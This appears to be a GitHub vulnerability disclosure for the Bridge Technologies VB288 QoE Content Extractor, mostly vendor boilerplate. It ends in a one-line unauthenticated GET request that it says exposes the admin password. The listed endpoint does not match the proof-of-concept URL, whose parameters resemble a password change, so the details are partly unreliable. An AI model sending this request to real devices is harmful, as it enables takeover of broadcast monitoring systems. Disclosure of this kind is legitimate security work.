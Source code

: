 # bridgetech VB288 Objective QoE Content Extractor Information Disclosure Vulnerability

## Too lazy to write details, so here’s the description of the device from the vendor’s website
---
## Description

The VB288 is a software-only solution from Bridge Technologies that runs on standard, off-the-shelf server hardware. It was specifically designed to monitor video and audio quality across multiple broadcast streams, using Objective Quality of Experience (QoE) metrics rather than subjective scoring systems like MOS (Mean Opinion Score).

Bridge Technologies is a Norwegian company based in Oslo that specializes in advanced monitoring, analysis, and quality assurance systems for digital media and telecommunications. Their solutions ensure high service quality across broadcast, cable, satellite, OTT, IPTV, and home networks, safeguarding content delivery for over 1.2 billion subscribers and thousands of channels worldwide
## Who Uses These Devices?

These solutions are primarily used by:

Broadcast and media companies (TV stations) operating studios,professional streamers, head-ends, and remote production environments.

Telecom, cable, satellite, and OTT providers ensuring service quality across networks.

Network engineers and QA teams needing real-time and historic insight into media delivery.

Remote production and field engineers deploying NOMAD in dynamic environments.

Large-scale operations.

---

## Vendor Information
- **Vendor:** bridgetech
- **Vendor Homepage:** [https://bridgetech.tv/](https://bridgetech.tv/)

---

## Affected Products
- **Product:** bridgetech VB288 Objective QoE Content Extractor


- **Built Version:** Jul 1 2025 12:43:42
- **Firmware Version:**  5.6.0-8

---

## Vulnerable Endpoints
- `/vbc/data/rdplist`  


---

## Attack Type
- **Type:** Information Disclosure  
- **Classification:** Improper Authorization  

---

## Impact
**Severity:** High  
---
## Attack Vector
- **Access Method:** Remote, over HTTP  
- **Authentication Requirement:** None (unauthenticated)  
- **Exploit Complexity:** Low (simple HTTP requests)  

---

## Proof of Concept (PoC)
make a get requste for his endpoints

{target}/extractor/core/setup/passwd?Change=1&=&passwd2=slvisolp&submitflash=OK&secs=1756630638395


this will show you the admin password


---

## PoC Video


https://github.com/user-attachments/assets/f678a8af-fe20-445b-9aec-7b53fff45959
